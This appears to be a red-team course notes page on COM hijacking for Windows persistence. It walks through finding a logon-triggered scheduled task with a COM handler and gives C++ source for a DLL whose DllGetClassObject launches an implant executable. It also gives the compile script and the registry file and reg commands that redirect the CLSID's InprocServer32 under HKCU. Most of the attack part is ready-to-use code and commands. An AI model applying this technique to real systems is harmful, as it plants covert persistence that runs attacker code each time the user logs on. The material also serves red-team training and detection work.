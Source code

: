 # COM Hijacking

## <mark style="color:red;">COM</mark>

> The Microsoft Component Object Model (COM) is an interface standard that allows the software components to interact and communicate with each other’s code without knowledge of their internal implementation.

#### In simple words, COM is a system that helps developers build libraries which can co-operate with other apps developed with other languages.

OM objects are identified by their globally unique identifiers (GUIDs) known as class identifiers (CLSIDs) and interface identifiers (IIDs) and they are registered in registry hives.&#x20;

The merged registry hive HKCR contains the combined information of HKCU and HKLM.

```
HKEY_CURRENT_USER\Software\Classes\<CLSID>  (Per-User)

HKEY_LOCAL_MACHINE\Software\Classes\<CLSID> (System-Wide)
```

{% hint style="info" %}
COM usually lives in a DLL, sometimes as a EXE.&#x20;

It can also live on a remote machine.
{% endhint %}

When COM is present as a DLL, the process of COM loading looks like this:

![](<../../../.gitbook/assets/image (130) (1).png>)

When COM is a EXE file the process will look like this:

![](<../../../.gitbook/assets/image (106).png>)

and if the COM object is on a remote machine:

![](<../../../.gitbook/assets/image (87).png>)

## <mark style="color:red;">COM Hijacking</mark>

One way to hijack the COM is by modifying the registry key in `HKEY_CUTRRENT_USER.`

![](<../../../.gitbook/assets/image (194).png>)

to find hijackable COM objects we can look in scheduled tasks:

```
schtasks /query /xml > c:\RTO\PERS\01.USER\tasks.xml
```

we are looking for 2 things, in the `<Exec>` section there should be something called `<ComHandler>` instead of a binary path and in the  `<Triggers>` section we want a `<LogonTrigger>`.&#x20;

look for `<ComHandler>` in the output file, this will point to a specific class ID.&#x20;

after finding a suitable handler:

![](<../../../.gitbook/assets/image (64).png>)

{% hint style="warning" %}
#### note that the delay here is 5 minutes.
{% endhint %}

query this ID in registry:

```
reg query "HKCR\CLSID\{97D47D56-3777-49FB-8E8F-90D7E30E1A1E}"

# to see if the key is in current user:
reg query "HKCU\SOFTWARE\Classes\CLSID\{97D47D56-3777-49FB-8E8F-90D7E30E1A1E}"

# to see if the key is in local machine:
reg query "HKLM\SOFTWARE\Classes\CLSID\{97D47D56-3777-49FB-8E8F-90D7E30E1A1E}"
```

![](<../../../.gitbook/assets/image (199).png>)

#### so the key is in local machine hive, if we put something in current user we can hijack that COM object.

we can export the target registry key as 64 bit :&#x20;

```
reg export "HKLM\SOFTWARE\Classes\CLSID\{97D47D56-3777-49FB-8E8F-90D7E30E1A1E}" c:\tsk-orig.reg /y /reg:64
```

the output is something like this:

```
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\{97D47D56-3777-49FB-8E8F-90D7E30E1A1E}]
@="Work Folder Logon Trigger Class"

[HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\{97D47D56-3777-49FB-8E8F-90D7E30E1A1E}\InprocServer32]
@="C:\\Windows\\System32\\WorkFoldersShell.dll"
```

then use this template for COM hijacking:

{% code title="wrkFolderShell.cpp" %}
```cpp
/*

 Red Team Operator course code template
 COM hijacking template
 
 author: reenz0h (twitter: @sektor7net)

*/
#include <Windows.h>
#include <combaseapi.h>


BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  ul_reason_for_call, LPVOID lpReserved) {
    STARTUPINFO info={sizeof(info)};
    PROCESS_INFORMATION processInfo;

    switch (ul_reason_for_call)  {
    case DLL_PROCESS_ATTACH:
        break;
    case DLL_THREAD_ATTACH:
        break;
    case DLL_THREAD_DETACH:
        break;    
	case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

HRESULT STDAPI DllGetClassObject(__in REFCLSID rclsid,
								__in REFIID riid,
								__deref_out LPVOID FAR* ppv) { 
	STARTUPINFO info={sizeof(info)};
    PROCESS_INFORMATION processInfo;
	
	CreateProcess(
				"c:\\RTO\\PERS\\implant\\implant.exe", 
				"", NULL, NULL, TRUE, 0, NULL, NULL, 
				&info, &processInfo);
	
	return S_OK;  
} 



/*

typedef HRESULT(WINAPI * tDllGetClassObject)(REFCLSID rclsid, REFIID riid, LPVOID* ppv);
tDllGetClassObject pDllGetClassObject;

HRESULT STDAPI DllGetClassObject(REFCLSID rclsid,
								 REFIID riid,
								 LPVOID FAR* ppv) { 
	STARTUPINFO info={sizeof(info)};
    PROCESS_INFORMATION processInfo;
	HMODULE hOrigDLL;
	
	CreateProcess(
				"c:\\RTO\\PERS\\implant\\implant.exe", 
				"", NULL, NULL, TRUE, 0, NULL, NULL, 
				&info, &processInfo);
	
	hOrigDLL = LoadLibrary("C:\\Windows\\System32\\WorkFoldersShell.dll");
	pDllGetClassObject = (tDllGetClassObject) GetProcAddress(hOrigDLL, "DllGetClassObject");
	if (!pDllGetClassObject)
		return S_FALSE;
	
	HRESULT hRes = pDllGetClassObject(rclsid, riid, ppv);
	
	return hRes;
} 
*/cpp
```
{% endcode %}

{% code title="wrkFolderShell.def" %}
```cpp
LIBRARY
EXPORTS
  DllGetClassObject PRIVATE
```
{% endcode %}

compile it with:

{% code title="compile.bat" %}
```batch
@ECHO OFF

cl.exe /W0 /D_USRDLL /D_WINDLL wrkFoldersShell.cpp wrkFoldersShell.def /MT /link /DLL /OUT:wrkFoldersShell.dll
```
{% endcode %}

```
compile.bat
```

![](<../../../.gitbook/assets/image (161).png>)

now the DLL is ready, we should implant it in the registry.

change the original key to `CURRENT_USER` and change the path to DLL:

```
Windows Registry Editor Version 5.00

[HKEY_CURRENT_USER\SOFTWARE\Classes\CLSID\{97D47D56-3777-49FB-8E8F-90D7E30E1A1E}]
@="Work Folder Logon Trigger Class"

[HKEY_CURRENT_USER\SOFTWARE\Classes\CLSID\{97D47D56-3777-49FB-8E8F-90D7E30E1A1E}\InprocServer32]
@="C:\\Users\rto\Desktop\\WorkFoldersShell.dll"
```

save the new registry then import it to the hive.

```
reg import c:\tsk.reg /reg:64
```

check out:

```
reg query "HKCU\SOFTWARE\Classes\CLSID\{97D47D56-3777-49FB-8E8F-90D7E30E1A1E}\InProcServer32" /reg:64
```

![](<../../../.gitbook/assets/image (209).png>)

now we have to wait for the user to relogin or reboot the machine.

## <mark style="color:red;">Resources</mark>

{% embed url="https://cyberstruggle.org/com-hijacking-for-persistence" %}

{% embed url="https://attackiq.com/2020/03/26/component-object-model-hijacking" %}

{% embed url="https://pentestlab.blog/2020/05/20/persistence-com-hijacking" %}
